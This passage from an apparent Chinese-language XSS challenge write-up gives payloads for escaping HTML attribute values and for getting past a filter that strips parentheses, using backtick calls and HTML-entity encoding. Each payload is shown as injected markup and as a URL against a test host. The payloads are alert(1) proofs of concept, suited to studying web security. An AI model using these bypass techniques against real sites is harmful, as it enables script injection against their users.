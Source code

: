 - 网页代码

```html
<input type="name" value="'"><script>alert(1)</script>">

<input type="name" value="" onclick=alert(1) "">
```

- URL

```url
http://xss.test/?input='%22%3E%3Cscript%3Ealert(1)%3C%2Fscript%3E

http://xss.test/?input=%22%20onclick%3Dalert(1)%20%22
```

## 0x03

- server 源码

过滤括号 `[()]`，可以使用反引号代替，html编码绕过，或者引用外部js文件

```php
function render (input) {
  const stripBracketsRe = /[()]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

- 插入代码

```html
# 反引号
<script>alert`1`</script> 

# html编码绕过
<img src=# onerror=alert&#x28;1&#x29;>
```

- 网页代码

```html
# 反引号
<script>alert`1`</script>

# html编码绕过
<img src=# onerror=alert&#x28;1&#x29;>
```

- URL

```url
# 反引号
http://xss.test/?input=%3Cscript%3Ealert%601%60%3C%2Fscript%3E%20

# html编码绕过
http://xss.test/?input=%3Cimg%20src%3D%23%20onerror%3Dalert%26%23x28%3B1%26%23x29%3B%3E

```
